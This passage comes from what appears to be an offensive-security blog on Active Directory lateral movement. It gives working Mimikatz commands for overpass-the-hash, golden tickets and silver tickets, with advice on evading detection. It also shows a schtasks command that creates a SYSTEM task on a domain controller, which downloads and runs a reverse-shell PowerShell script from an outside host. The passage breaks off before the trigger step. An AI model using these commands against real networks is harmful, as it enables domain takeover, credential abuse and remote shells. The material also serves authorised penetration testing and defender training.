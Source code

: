 Once we have a TGT as the target user, we can use services as this user in a domain context, allowing us to move laterally.

#### Lateral Movement with Mimikatz <a href="#lateral-movement-with-mimikatz" id="lateral-movement-with-mimikatz"></a>

Note that Mimikatz is incredibly versatile and is discussed in multiple sections throughout this blog. Because of this, however, the binary is also very well-detected. If you need to run Mimikatz on your target (not recommended), executing a custom version reflectively is your best bet. There are also options such as [Invoke-MimiKatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) or [Safetykatz](https://github.com/GhostPack/SafetyKatz). Note that the latter is more stealthy but does not include all functionality.

```
# Overpass-the-hash (more risky than Rubeus, writes to LSASS memory)
sekurlsa::pth /user:Administrator /domain:targetdomain.com /ntlm:[NTLMHASH] /run:powershell.exe

# Or, a more opsec-safe version that uses the AES256 key (similar to with Rubeus above) - works for multiple Mimikatz commands
sekurlsa::pth /user:Administrator /domain:targetdomain.com /aes256:[AES256KEY] /run:powershell.exe

# Golden ticket (domain admin, w/ some ticket properties to avoid detection)
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

# Silver ticket for a specific SPN with a compromised service / machine account
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.targetdomain.com /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

Plaintext

> A nice overview of the SPNs relevant for offensive purposes is provided [here](https://adsecurity.org/?p=2011) (scroll down) and [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pass-the-ticket-silver-tickets).

#### Command execution with scheduled tasks <a href="#command-execution-with-scheduled-tasks" id="command-execution-with-scheduled-tasks"></a>

_Requires ‘Host’ SPN_

To create a task:

```powershell
# Mind the quotes. Use encoded commands if quoting becomes too much of a pain
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dc.targetdomain.com /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1''')'"
```

PowerShell

To trigger the task:
